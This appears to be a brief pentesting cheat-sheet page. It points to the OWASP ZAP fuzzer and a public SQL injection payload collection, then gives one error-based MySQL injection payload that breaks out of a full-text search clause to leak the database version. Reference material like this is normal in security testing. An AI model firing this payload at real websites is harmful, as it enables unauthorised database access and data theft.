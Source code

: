 ## Owasp ZAP
```
fuzzer
```

## Payloads
- Link of advanced sqlinjection payloads
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL Injection/MySQL Injection

## ErrorBased SQLI

- 
```
' IN BOOLEAN MODE) AND (SELECT 2*(IF((SELECT * FROM (SELECT <span style="color:red">version()</span>)s), 8446744073709551610, 8446744073709551610)))#
```
